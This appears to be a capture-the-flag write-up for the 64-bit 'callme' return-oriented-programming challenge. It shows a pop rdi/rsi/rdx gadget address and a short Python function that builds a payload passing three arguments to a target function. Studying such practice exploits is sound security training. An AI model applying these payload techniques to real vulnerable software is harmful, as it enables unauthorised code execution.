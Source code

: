 # callme - 64bit

Again, the 64-bit version is very similar to the [32-bit exploit](../32-bit/README.md)

In the same way, we will require gadgets to put the parameters in the correct places.

Luckily we also have the same combined gadget:

```
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
```

The order of the function call will be slightly different to the 32-bit version as the parameters need to be in the registers before the function call is made

Therefore, the function call code looks like this:
```python
def call_function_x86(function):
    payload = b""

    # pop rdi ; pop rsi ; pop rdx ; ret
    payload += pop_gadget 
    payload += p64(1)
    payload += p64(2)
    payload += p64(3)
    payload += function
    return payload
```

This function is repeated for each of the required methods.